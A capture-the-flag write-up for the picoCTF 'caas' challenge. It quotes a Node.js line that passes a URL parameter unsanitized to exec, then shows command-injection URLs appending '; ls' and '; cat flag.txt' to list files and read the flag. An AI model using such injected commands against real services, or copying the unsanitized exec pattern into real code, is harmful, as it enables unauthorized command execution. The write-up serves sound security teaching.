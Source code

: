 # TITLE : caas
## Author : BrownieInMotion
## Description
Now presenting [cowsay as a service](https://caas.mars.picoctf.net/)
## Solution
In this problem, the web app gives us the following task:
```
Make a request to the following URL to cowsay your message:
https://caas.mars.picoctf.net/cowsay/{message}
```
The response will display the message we input. At first, this didn’t give me a clue, so I checked the provided .js file.  
Inside the file, I found a part that seemed vulnerable:
```javascript
exec(`/usr/games/cowsay ${req.params.message}`)
```
This web application uses exec to process the input message. The exec function can spawn a shell (e.g., /bin/sh on Unix) and run the entire command string inside it. This means it is potentially vulnerable to command injection.

I tested this by adding a semicolon (;) after my message to chain another command, like this:
```
https://caas.mars.picoctf.net/cowsay/fwsefwf;%20ls
```
The server responded with a list of files in the directory. Among them, I noticed the flag file. I then ran:
```
https://caas.mars.picoctf.net/cowsay/fwsefwf;%20cat%20flag.txt
```
This revealed the flag.
